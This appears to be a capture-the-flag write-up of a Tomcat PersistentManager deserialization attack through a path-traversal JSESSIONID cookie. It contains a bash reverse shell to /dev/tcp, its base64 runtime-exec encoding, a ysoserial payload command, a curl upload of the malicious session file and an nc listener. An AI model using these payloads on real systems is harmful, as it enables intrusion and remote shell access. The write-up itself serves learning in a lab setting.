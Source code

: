 __Attack__

using a specifically crafted request, the attacker will be able to trigger remote code execution via deserialization of the file under their control.

__exploit__

* When Tomcat receives a HTTP request with a `JSESSIONID` cookie, it will ask the `Manager` to check if this session already exists. Because the attacker can control the value of `JSESSIONID` sent in the request, what would happen if he put something like `JSESSIONID=../../../../../../opt/samples/uploads/anything`

  * Tomcat requests the Manager to check if a session with session ID `../../../../../../opt/samples/uploads/anything` exists
  * It will first check if it has that session in memory.
  * It does not. But the currently running Manager is a `PersistentManager`, so it will also check if it has the session on __disk__.
  * It will check at location directory + sessionid + ".session", which evaluates to `./session/../../../../../../opt/samples/uploads/anything.session`
    * And here we need create create a malicious Java Runtime Environment serialized Object and upload as `.session` extention to exploit unsafe Java object deserialization vulnerability because when requesting it from `JSESSIONID` as cookie, `PersistentManager` check for session cookie in the disk and cookies are store with `.session` extention.

  * If the file exists, it will deserialize it and parse the session information from it

__Tool: [ysoserial](https://github.com/frohoff/ysoserial):__ for generating payloads.

# User Exploit

__Reverse_shell:__
```bash
❯ echo 'bash -i >& /dev/tcp/tun0/4141 0>&1' | base64
```

__convert reverse shell into a java runtime executable:__
online tool for this is [here](http://jackson-t.ca/runtime-exec-payloads.html)
```bash
bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}
```

* Generate serialized object cookie with reverseshell -
```bash
❯ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 "bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}" > duck.session
❯ file duck.session
duck.session: Java serialization data, version 5
```


* Upload file - 
```bash
❯ curl 'http://10.10.10.205:8080/upload.jsp' -F "image=@duck.session"
File uploaded successfully!
```

* open nc listener -
```
❯ nc -nvlp 4141
listening on [any] 4141 ...
```
